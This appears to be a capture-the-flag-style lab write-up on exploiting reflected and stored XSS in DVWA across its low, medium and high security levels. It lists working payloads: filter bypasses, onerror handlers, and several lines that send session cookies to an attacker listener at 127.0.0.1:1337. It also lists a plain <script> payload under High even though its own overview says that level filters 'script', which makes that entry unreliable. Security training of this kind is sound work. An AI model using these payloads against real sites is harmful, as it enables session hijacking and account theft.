 # Cross-site Scripting (XSS) (High Level)

## Vulnerability Overview

At the high-security level in DVWA, Cross-Site Scripting (XSS) attempts to be mitigated through a basic filtering mechanism using `preg_replace()`. This filter is designed to remove any input containing the word "script" in a case-insensitive manner. However, this approach has significant weaknesses:

- The filter only targets the exact word "script", ignoring other forms of JavaScript injection.
- Modified or nested tags can easily bypass the filter.
- The application directly reflects user input without proper output encoding.
- HTTP headers explicitly disable browser-based XSS protection with `X-XSS-Protection: 0`.

These issues make DVWA vulnerable to both reflected and stored XSS attacks even at higher security levels.

---

# Exploitation

## Low Security Level

### Source Code Analysis
- No XSS protection implemented.
- User input is directly reflected into the webpage.

### Payloads

1. Basic Alert Injection:
```html
<script>alert("You have been hacked")</script>
```
- Triggers a JavaScript alert when the page is loaded.

2. Cookie Theft:
```html
<script>alert(document.cookie)</script>
```
- Displays the current session cookie via an alert.

3. Cookie Exfiltration:
```html
<script>window.location='http://127.0.0.1:1337/?cookie='+document.cookie</script>
```
- Redirects the user's browser to an attacker-controlled server, sending the cookie as a query parameter.

---

## Medium Security Level

### Source Code Analysis
- The application attempts to replace the word "script" in the input.
- Does not account for closing tags or nested tags, allowing payloads to bypass the filter.

### Payloads

1. Case Variation Bypass:
```html
<SCRIPT>alert(document.cookie)</SCRIPT>
```
- Bypasses simple case-sensitive filtering.

2. Nested Tag Bypass:
```html
<scr<script>ipt>alert("You have been hacked")</script>
```
- Breaks up the keyword "script" to evade detection.

---

## High Security Level

### Source Code Analysis
- Improved filtering, but vulnerable to more sophisticated payloads using event handlers.

### Payloads

1. Basic Onerror Exploit:
```html
<img src=x onerror="alert('You have been hacked')">
```

2. Cookie Stealing with Onerror:
```html
<img src/onerror=alert(document.cookie)>
```

3. Redirect and Exfiltrate Cookie:
```html
<script>window.location='http://127.0.0.1:1337/?cookie='+document.cookie</script>
```

4. Alternate Redirect using Image:
```html
<img src=/ onerror="window.location='http://127.0.0.1:1337/?cookie='+document.cookie">
```

These payloads demonstrate that even at high-security settings, DVWA can still be exploited for XSS attacks using creative techniques.

---

# ✅ Conclusion

DVWA's XSS module, even at the High security level, remains vulnerable due to insufficient input validation and lack of proper output encoding. Exploitation techniques range from simple script injection to advanced payload crafting using event handlers and nested tags.
